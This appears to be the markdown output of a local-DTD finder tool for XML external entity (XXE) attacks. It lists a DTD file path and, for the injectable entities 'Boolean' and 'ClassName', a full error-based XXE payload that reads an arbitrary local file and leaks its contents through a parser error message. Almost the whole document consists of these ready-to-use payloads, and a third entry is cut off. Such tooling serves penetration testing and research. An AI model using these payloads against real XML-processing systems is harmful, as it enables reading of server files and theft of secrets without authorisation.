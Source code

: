  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd`

**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/mbeans-descriptors.dtd`
